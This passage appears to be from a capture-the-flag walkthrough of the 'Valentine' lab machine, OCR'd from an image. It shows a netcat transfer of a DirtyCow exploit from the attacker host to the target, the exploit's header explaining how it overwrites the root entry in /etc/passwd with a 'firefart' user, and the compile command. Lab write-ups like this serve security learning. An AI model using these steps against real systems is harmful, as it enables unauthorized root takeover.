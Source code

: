 ```
        RX packets 126  bytes 14162 (13.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 213  bytes 17812 (17.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
$ nc -nlvp 1337 < 40839.c
listening on [any] 1337 ...
```

```
hype@Valentine:~/Downloads$ nc 10.10.16.55 1337 > 40839.c
hype@Valentine:~/Downloads$ ls -l
total 8
-rw-rw-r-- 1 hype hype 5006 Jul 17 09:01 40839.c
```

Now we need to compile the exploit source code to execute it.

For the particular implementation of DirtyCow exploit we used, it automatically
generates a new passwd file containing a new user “firefart” which overwrites
the root account. After running the exploit we should be able to login with the
newly created user with a password that we specify on a prompt. The original
/etc/passwd file is then backed up to /tmp/passwd.bak.

```
hype@Valentine:~/Downloads$ head -25 40839.c
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
hype@Valentine:~/Downloads$ gcc -pthread 40839.c -o dirty -lcrypt
```
